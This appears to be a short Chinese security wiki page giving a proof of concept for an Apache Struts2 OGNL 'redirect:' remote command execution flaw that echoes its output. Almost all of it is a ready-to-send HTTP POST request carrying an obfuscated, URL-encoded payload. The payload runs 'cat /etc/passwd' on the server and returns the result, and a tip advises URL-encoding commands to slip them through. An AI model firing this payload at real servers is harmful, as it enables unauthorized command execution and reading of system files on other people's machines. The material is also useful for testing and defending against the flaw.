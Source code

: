 
有回显命令执行 PoC (POST)

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 192.168.10.10:8080
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

???+ tip "最好将需要执行的命令进行 urlencode 编码"

     `cat /etc/passwd` -> `%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64`

![s2-005-3](images/s2-005-3.png)
